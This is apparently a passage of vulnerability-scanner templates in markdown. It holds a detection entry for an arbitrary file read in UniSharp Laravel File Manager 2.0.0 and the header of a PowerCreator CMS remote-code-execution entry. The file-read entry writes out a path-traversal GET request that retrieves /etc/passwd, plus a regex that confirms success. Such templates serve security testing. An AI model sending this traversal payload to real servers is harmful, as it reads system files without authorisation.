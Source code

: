 - status
  1. 200

### Extractors

**Type - json**

- json
  1. .url

---

# UniSharp Laravel File Manager 2.0.0 - Arbitrary File Read

## Description

- UniSharp Larevel File Manager 2.0.0 is vulnerable to arbitrary file read.
- severity - high
- tags - lfr,edb,lfi,unisharp,laravel,filemanager,fileupload

## Requests

- Method - GET

### URL

- {{BaseURL}}/laravel-filemanager/download?working_dir=%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2F&type=&file=passwd

### Matchers

**Type - regex**

- part - body
- regex
  1. root:.\*:0:0:

**Type - status**

- status
  1. 200

---

# PowerCreator CMS - Remote Code Execution

## Description

- PowerCreator CMS is susceptible to a remote code execution vulnerability.

- severity - critical
- tags - rce,powercreator,intrusive,fileupload
